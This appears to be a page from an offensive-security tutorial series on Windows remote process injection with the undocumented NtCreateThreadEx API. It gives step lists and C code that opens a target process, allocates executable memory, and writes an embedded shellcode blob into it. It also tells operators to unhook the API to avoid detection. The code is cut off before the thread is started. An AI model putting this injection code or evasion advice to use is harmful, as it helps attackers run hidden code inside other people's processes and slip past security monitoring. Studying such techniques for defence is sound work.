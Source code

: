 ```c
}
```
##### DAY 5
## Remote Process Injection via NtCreateThreadEx
Remote Process Injection is a method for operators to migrate to active processes in order to blend in to the target and execute arbitrary code. There are plenty of ways to do this, however in this blogpost we'll be using **`NtCreateThreadEx`** in order to start a new thread in the virtual address space of the remote process.**`NtCreateThreadEx`** is a undocumented Native API that resides in nt.dll which is the library where the Native API live. The more well known Windows API **`CreateRemoteThread`** actually calls this function behind the scenes before it enters the kernel. Still in order to use this technique in engagements  you may need to unhook this function in order to not have it get flagged. 

### Steps:

   1.Open Remote Process - OpenProcess()

   2.Allocate Memory in the Remote Process with PAGE_EXECUTE_READWRITE permissions-VirtualAllocEx()

​      * Allocating memory with PAGE_EXECUTE_READWRITE is bad opsec

   3.Write shellcode over to the newly allocated memory space - WriteProcessMemory()

   4.Start a New Thread pointing to the allocated memory space -NtCreateThreadEx()

```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS(NTAPI *NtCreateThreadEx)(HANDLE * pHandle, ACCESS_MASK DesiredAccess, void * pAttr, HANDLE hProc, void * pFunc, void * pArg, ULONG Flags, SIZE_T ZeroBits, SIZE_T StackSize, SIZE_T MaxStackSize, void * pAttrListOut);



int main(int argc,char **argv){
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e\x4c\x8d"
"\x85\x08\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5\x53\x68\x65"
"\x6c\x6c\x63\x6f\x64\x65\x00\x53\x75\x63\x63\x65\x73\x73\x00";


HANDLE hthread=NULL;
DWORD pid = atoi(argv[1]);
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS,FALSE,pid);
VOID *payload= VirtualAllocEx(hProc,NULL,sizeof(shellcode),MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProc,payload,shellcode,sizeof(shellcode),NULL);
```